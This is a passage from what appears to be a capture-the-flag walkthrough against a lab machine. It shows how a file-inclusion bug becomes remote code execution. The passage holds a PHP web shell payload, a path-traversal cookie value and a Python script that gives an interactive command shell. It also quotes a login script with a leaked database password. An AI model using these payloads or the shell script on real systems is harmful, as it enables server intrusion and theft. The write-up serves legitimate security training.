 We have no read access on the *Apache* logs... How can we transform the include() vulnerability in a RCE (remote code execution) one ?  

The hint is to use the *notes.php* script stroring the data we submit to a *note.txt* file in a *"temporary storage"*.  

Indeed when I submitted *<?php system($\_get["cmd"]); ?>* to *notes.php* just before exploiting the *intruder* vulnerability to include */tmp/note.txt* I was then able to execute commands on the system.  

Some more Python code can give us a poor man's shell to the server :  

```python
import requests
import sys
import urllib

URL = "http://192.168.1.29/super_secret_login_path_muhahaha/panel.php?cmd={0}"

while True:
    cmd = raw_input("$ ").strip()
    if cmd == "exxit":
        sys.exit()
    cmd = urllib.quote(cmd)

    r = requests.get(URL.format(cmd),
            headers={"cookie": "intruder=....//....//....//....//....//....//....//....//tmp/note.txt;"},
            allow_redirects=False)
    print r.content[136:-9]
```

Taking a look at *login.php* I found a password for *Jack* :  

```php
<?PHP
session_start();

function login(){

        $username = mysql_escape_string($_POST["username"]);
        $password = mysql_escape_string($_POST["password"]);
        // mysql_connect("127.0.0.1", "Jack", "zgcR6mU6pX") or die ("Server Error"); I'll change this back once development is done. Got sick of typing my password.  
        mysql_connect("127.0.0.1", "www-data", "website") or die("Server Error");
        mysql_select_db("website") or die("Server Error");
        $sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
        $res = mysql_query($sql) or die("Server Error");
        $row = mysql_fetch_row($res);
        if ($row[0]) {
                return 1;
        } else {
                return 0;
        }
}

if (login()) {
        $_SESSION["valid"] = 1;
        setcookie(time()+600);
        header('Location: index.php');
} else {
        header('Location: index.php?the_user_is_a_failure=1');
}
?>
```
